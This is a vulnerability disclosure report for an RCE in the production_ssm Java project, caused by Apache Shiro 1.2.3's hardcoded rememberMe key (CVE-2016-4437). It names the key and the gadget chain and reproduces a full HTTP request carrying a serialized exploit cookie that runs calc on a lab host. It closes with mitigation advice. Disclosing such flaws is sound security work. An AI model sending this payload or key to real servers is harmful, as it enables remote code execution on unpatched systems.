




## 💥 Vulnerability Report :  Remote Code Execution in `production_ssm` via Apache Shiro 1.2.3


#### **Affected Product**

- **Project Name**: production_ssm
- **Version**: 1.0.0
- **Source Repository**: https://github.com/megagao/production_ssm

#### **Vulnerability Details**

​	The `production_ssm` project integrates Apache Shiro version 1.2.3 as its authentication and authorization framework. This version of Shiro contains a known deserialization vulnerability (CVE-2016-4437). The flaw arises from the usage of a hardcoded encryption key within the `AbstractRememberMeManager` class when handling `rememberMe` cookie data. An attacker can exploit this vulnerability by sending a specially crafted, encrypted serialized object via the `rememberMe` cookie, resulting in **remote code execution** (RCE) on the server.






#### **Proof of Concept**

​	During testing with ShiroAttack2 (https://github.com/SummerSec/ShiroAttack2), the hardcoded key kPH+bIxk5D2deZiIxcaaaA== was found to be valid for deserialization. The CommonsBeanutilsString_183 gadget chain enabled successful arbitrary command execution along with proper command output via echo.



​	The following request is used to execute the `calc` command, which launches the calculator application to demonstrate the existence of the vulnerability.

```
GET /production_ssm/ HTTP/1.1
Host: 192.168.147.145:8085
Authorization: Basic Y2FsYw==
Cookie: rememberMe=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
```




#### **Impact**

- **Severity**: Critical
- **Attack Vector**: Remote
- **Authentication Required**: No
- **Impact**: Remote Code Execution (RCE)


#### **Mitigation Recommendations**

- **Upgrade Apache Shiro** to version **1.4.2** or later
- Configure a **custom random AES key** in `shiro.ini` or your Spring configuration
- **Disable `rememberMe`** functionality if not required
- Avoid deserialization of untrusted input wherever possible

